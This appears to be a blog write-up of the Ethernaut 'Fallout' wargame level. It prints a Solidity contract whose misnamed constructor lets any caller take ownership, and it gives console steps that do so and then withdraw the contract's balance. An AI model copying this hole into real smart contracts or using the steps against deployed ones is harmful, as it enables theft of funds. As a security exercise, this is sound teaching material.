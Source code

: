 ```yaml
---
layout: post
title: Ethernaut - 2.Fallout
date:  2022-08-24
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑
> Claim ownership of the contract below to complete this level.<br /><br />
  Things that might help 
  - Solidity Remix IDE

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Writeup
1. Get new instance
2. Call the method
    ``` solidity

    await contract.owner()
    
    ```
    to check contract owner, it return address 0x0000000000000000000000000000000000000000.
3. Call the method
    ``` solidity

    await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())

    ```
    to check balance, it will return zero.
4. Call the method
    ``` solidity

    await contract.Fal1out({ value: toWei("0.00001") })

    ``` 
5. Call method `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
6. Call the method
    ``` solidity

    await contract.collectAllocations()

    ```
7. Submit instance ξ( ✿＞◡❛)